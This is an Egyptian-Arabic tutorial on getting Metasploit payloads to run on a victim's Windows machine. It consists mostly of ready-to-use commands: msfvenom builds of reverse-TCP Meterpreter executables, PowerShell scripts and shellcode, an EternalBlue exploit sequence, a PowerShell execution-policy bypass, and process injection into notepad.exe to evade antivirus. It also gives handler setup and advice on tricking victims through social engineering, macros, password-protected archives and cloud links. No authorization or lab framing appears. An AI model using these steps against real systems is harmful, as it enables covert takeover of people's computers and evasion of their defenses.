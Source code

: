 
# **📌 يعني إيه تشغيل أو تنفيذ الـ Payload؟**

✅ الـ **Payload** هو الكود اللي بيشتغل على جهاز الضحية **علشان يفتح لك جلسة تحكم (Session)**.  
✅ بعد ما تولده بـ **MSFVenom**، لازم **تنقله لجهاز الضحية وتشغّله** علشان تقدر تسيطر عليه.  
✅ تشغيله بيتم بطرق كتير، حسب **نظام التشغيل ومستوى الحماية على الجهاز المستهدف**.

---

# **🔥 طرق تشغيل الـ Payload على جهاز الضحية**

## **🟢 1. التشغيل اليدوي (Manual Execution)**

💡 ده أسهل وأوضح طريقة: إنك **تخدع الضحية وتحسّسه إن الملف طبيعي** ويشغله بنفسه!  
✅ مثال: توليد ملف تنفيذي للويندوز (`exe`) وتشغيله مباشرة.

**🔹 خطوات التنفيذ:**  
1️⃣ توليد الـ Payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe
```

2️⃣ **إرساله للضحية** عن طريق:

- **USB / Flash Memory** 🖥️
- **رفع الملف لموقع وإرسال الرابط للضحية** 🌍
- **إرفاقه في بريد إلكتروني / ملف مضغوط** 📧

3️⃣ لما الضحية يشغّله، الجلسة هتبدأ عندك في **Metasploit**.

---

## **🟢 2. التشغيل التلقائي بعد الاستغلال (Auto Execution via Exploit)**

✅ الطريقة دي بتستخدم ثغرة في النظام علشان تشغل الـ Payload تلقائيًا **بدون تدخل الضحية**.  
✅ مثال: استغلال ثغرة **EternalBlue (MS17-010)** علشان تنفيذ الـ Payload مباشرة.

**🔹 خطوات التنفيذ:**  
1️⃣ تشغيل Metasploit واختيار الـ Exploit:

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
```

2️⃣ تحديد الهدف والـ Payload:

```bash
set RHOSTS 192.168.1.50  # عنوان الضحية
set LHOST 192.168.1.100  # عنوان جهازك
set PAYLOAD windows/meterpreter/reverse_tcp
```

3️⃣ تشغيل الهجوم:

```bash
exploit
```

🎯 بمجرد نجاح الهجوم، الـ Payload هيشتغل عند الضحية **تلقائيًا** وهيوصلك جلسة تحكم (Meterpreter).

---

## **🟢 3. التشغيل عبر مستندات أو سكريبتات خبيثة**

✅ هنا بنحاول **نخدع الضحية** باستخدام ملف غير تنفيذي (`exe`) علشان ما يشكش فيه.  
✅ أشهر الطرق:

- **ملفات Word أو Excel** 🎯 باستخدام **ماكرو VBA**
- **ملفات PDF خبيثة** 📄
- **سكريبتات Python أو PowerShell**

**🔹 مثال: تشغيل Payload عبر PowerShell (بدون ملفات exe!)**  
1️⃣ توليد كود PowerShell لتشغيل Meterpreter:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f psh > payload.ps1
```

2️⃣ إرساله للضحية في شكل أمر **يعمل في الخلفية**:

```powershell
powershell -ExecutionPolicy Bypass -File payload.ps1
```

🎯 بمجرد تشغيل الأمر ده على جهاز الضحية، هتوصلك جلسة Meterpreter **بدون ما يفتح أي ملف تنفيذي مشبوه!** 🔥

---

## **🟢 4. تشغيل الـ Payload مع برامج نظيفة (Process Injection)**

✅ الفكرة هنا إنك **تخفي الـ Payload جوا عملية نظيفة** شغالة عند الضحية، زي **explorer.exe أو notepad.exe**.  
✅ دي طريقة قوية جدًا علشان **تخطي الحماية والـ Antivirus**!

**🔹 مثال: حقن الـ Payload داخل عملية شغالة:**  
1️⃣ توليد الـ Payload على هيئة Shellcode:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shellcode.bin
```

2️⃣ استخدام **أداة مثل `inject.exe`** لحقن الـ Payload في **Notepad.exe** عند الضحية:

```bash
inject.exe -p shellcode.bin -t notepad.exe
```

🎯 **بكده الـ Payload هيشتغل جوا عملية نظامية، صعب على الـ Antivirus يكتشفها!** 🔥

---

# **💡 الخلاصة بالمصري:**

1️⃣ لازم **تنقل الـ Payload** لجهاز الضحية بأي طريقة (يدويًا، استغلال ثغرة، مستند خبيث، حقن في عملية).  
2️⃣ **أفضل الطرق لتشغيله:**

- الضحية يشغله بنفسه ✅
- استغلال ثغرة تشغله تلقائيًا ✅
- تشغيله جوا مستند Word أو PowerShell ✅
- حقنه جوا برنامج نظيف زي **explorer.exe** ✅  
    3️⃣ **كل ما كان الـ Payload مخفي أكتر، كل ما فرص نجاحه زادت.**

---

# **🛠️ خطوات عملية لتشغيل الـ Payload بنجاح:**

✅ **1. توليد الـ Payload بالطريقة المناسبة**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > bypass.exe
```

✅ **2. نقل الملف للضحية بذكاء (بدون ما يشك)**:

- رفعه في **موقع تخزين سحابي** (Google Drive أو Dropbox).
- إرساله كـ **ملف مضغوط بكلمة مرور**.
- استخدام **هندسة اجتماعية** علشان الضحية يفتحه.

✅ **3. تشغيل Metasploit لاستقبال الجلسة:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

🎯 **بمجرد تشغيل الـ Payload على جهاز الضحية، هتوصلك جلسة تحكم كاملة!** 🚀🔥